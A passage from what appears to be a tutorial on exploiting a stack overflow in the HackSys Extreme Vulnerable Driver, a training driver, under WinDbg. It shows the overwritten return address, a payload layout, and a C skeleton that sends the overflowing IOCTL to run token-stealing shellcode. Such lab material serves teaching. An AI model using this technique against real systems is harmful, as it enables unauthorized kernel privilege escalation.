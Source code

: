 We can now compile and run our first PoC, and wait for WinDbg to catch the breakpoint.

{{ img(src="/img/win-kernel-debug/hevd-stack-overflow-windbg-ret.png" title="image_alt") }}

If we check the stack, we see that we've successfully overwritten the return
address:

```txt
          |                |
          |    ReturnAddr  |
          |       SFP      |
          | AAAAAAAAAAAAAA |
          | AAAAAAAAAAAAAA |
          | AAAAAAAAAAAAAA |
          | AAAAAAAAAAAAAA |
          | AAAAAAAAAAAAAA |
          | AAAAAAAAAAAAAA |
          |                |
```

So we know that our user-land allocated must be something like:

```txt
                     0x800 bytes             8 bytes    8 bytes
 _____________________^___________________   ___^____   ___^____
/                                         \ /        \ /        \
|                                          |          |          |
| Shellcode + Padding                      | BBBBBBBB | addr. of |
|                                          |          |  buffer  |
^                                                          |
|                                                          |
\__________________________________________________________/
```

Which translates into the following C code:

```c
#define IOCTL_HEVD_STACK_OVERFLOW 0x222003


/* 1. Get a handle to the driver */
HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", ...);

/* 2. Populate our controlled area */
LPVOID lpInBuffer = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
DWORD nInBufferSize = 0x800 + 0x50;
ZeroMemory(lpInBuffer, 0x1000);
CopyMemory(lpInBuffer, StealTokenShellcode, StealTokenShellcodeLength);
RtlFillMemory(lpInBuffer+StealTokenShellcodeLength, 0x1000-StealTokenShellcodeLength, '\xcc');
uint64_t *ptr = (uint64_t*) (lpInBuffer + 0x808);
*ptr = (uint64_t)lpInBuffer;

/* 3. Send the IOCTL request */
BOOL bResult = DeviceIoControl(hDevice, IOCTL_HEVD_STACK_OVERFLOW,
                               lpBufferIn, dwBufferInLength, ...);

/* 4. Profit */
```
